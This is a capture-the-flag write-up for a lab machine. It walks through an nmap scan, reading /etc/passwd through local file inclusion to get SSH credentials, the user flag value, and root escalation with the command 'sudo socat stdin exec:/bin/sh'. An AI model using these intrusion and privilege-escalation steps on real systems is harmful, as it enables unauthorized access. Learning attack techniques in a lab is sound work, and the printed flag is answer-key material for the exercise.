

What we can learn from this machine :
* enumerations
* local-file-inclusion (LFI)
* socat

```
# Nmap 7.91 scan initiated Fri Jun 11 15:50:08 2021 as: nmap -sC -sV -sT -A -oN nmap/nmap-output 10.10.65.107
Nmap scan report for 10.10.65.107
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 11 15:50:44 2021 -- 1 IP address (1 host up) scanned in 36.00 seconds
```
Looks like we got the port 80 http website named **My blog** and port 22 ssh.


Let's look into that blog posts. After we change into that post. You can see our url change into the **article?name=hacking** looks like file inclusion.

Documentation abot LFI : https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/

Let's try to get **/etc/passwd** list from this.



Looks like we got our username:password let's try to log into our user through ssh.

```bash
─[visith@parrot]─[~/CTF/thm/Inclusion]
└──╼ $ssh falconfeast@10.10.65.107
The authenticity of host '10.10.65.107 (10.10.65.107)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.107' (ECDSA) to the list of known hosts.
falconfeast@10.10.65.107's password: 
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```
We got the user flag let's get the root privilege. Before running any of the enumeration scripts. Let's look what we can run.

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
**socat** looks like we can run socat without passwd. Let's visit to *GTFObins* and grab a command.

https://gtfobins.github.io/gtfobins/socat/#sudo


```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cd /root
ls
root.txt
```

Thx for reading !! 
Have a nice day